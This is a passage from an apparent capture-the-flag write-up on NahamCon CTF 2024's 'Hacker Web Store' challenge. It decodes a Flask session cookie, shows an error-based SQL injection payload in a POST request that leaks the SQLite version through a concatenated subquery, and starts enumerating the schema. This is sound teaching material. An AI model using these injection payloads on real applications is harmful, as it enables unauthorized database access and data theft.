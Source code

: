 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527131555.png)

**Decoded Flask session cookie:**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|13:08:11(HKT)]
└> flask-unsign --decode --cookie '.eJxNjc0KgzAQhF8l3bMYkNIfb32GHkXCJrupUjXWXelBfPemh0JPwwfzzWzg4oDSsUDdbGA0B4wsgg-GAu5rCBkO5kbEZCZ-m3lJtAY1mgyhokfhEtq9LfLSwtJBHXEQLoC8m1Ezg-3SyDZotJLH-jS5nyk2XKk6VWeKR39x5Et5Db1-rzU9ecryfwH2D7irOys.ZlQVNQ.C3h1T_xL_qBHMthWP5-SpuX4u7Q' 
{'_flashes': [('message', 'Success! Added new product to database.')], '_fresh': False, 'db_path': '/home/ctf/session_databases/c9d2627df4b8_db.sqlite', 'token': 'c9d2627df4b8'}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527131633.png)

Ayy! No more errors!

That being said, the **`POST /create/` endpoint** is **indeed vulnerable to SQL injection**. More specifically, it's **error-based SQL injection**!

## Exploitation

Armed with above information, we can try to exploit the SQL injection vulnerability to exfiltrate the database's records!

To do so, we can use **subquery**!

> A subquery is a SQL query nested inside a larger query. - [https://www.w3resource.com/sqlite/sqlite-subqueries.php](https://www.w3resource.com/sqlite/sqlite-subqueries.php)

**Payload:**
```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+sqlite_version()));--+-
```

**Final executed SQL statement:**
```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT sqlite_version()));-- -');
```

In here, we use the `||` to concatenate an empty string with the value of the subquery, which is the SQLite version.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527132332.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527132354.png)

Nice! It worked! The server uses SQLite version `3.31.1`!

Now, let's **enumerate the database's structure**!

According to [PayloadsAllTheThings SQLite Injection Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version), we can **get the database structure via table `sqlite_schema` or `sqlite_master`**.
